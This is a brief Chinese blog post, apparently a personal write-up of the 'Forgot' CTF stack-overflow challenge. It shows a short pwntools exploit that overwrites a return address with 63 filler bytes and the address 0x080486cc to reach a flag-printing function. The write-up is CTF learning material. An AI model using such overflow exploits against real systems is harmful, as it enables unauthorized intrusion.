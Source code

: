 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      一道简单的栈溢出Forgot   # 标题
subtitle:                           #副标题
date:       2019-08-01              # 时间
author:     F0RG3T                  # 作者
header-img: img/post-bg-hacker.jpg  #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
  - PWN
---
```


## 一道简单的栈溢出Forgot

2019.08.01 下午 5 点，一天烧脑的工作后，打开 ctf-wiki，开始二进制之路。

打开 ida，看到了 cat ./flag

![1](/img/pwn/2019-08-01/1.png)

根据以前对栈溢出的了解，存在字符串写入，修改函数返回地址于特定地址，完成 pwn  
遂开始了漫长的无头绪乱撞  

查阅了很多资料，甚至搜到了原题 wp，运用了 cyclic 技巧直接得到了偏移量...

![2](/img/pwn/2019-08-01/2.png)

编写 exp

```py
from pwn import *

p = process('forgot')

p.recv()
payload = 'A'*63 + p32(0x080486cc)

p.sendline(payload)
p.interactive()

```

得到结果

![3](/img/pwn/2019-08-01/3.png)


困死了，明天再写原理
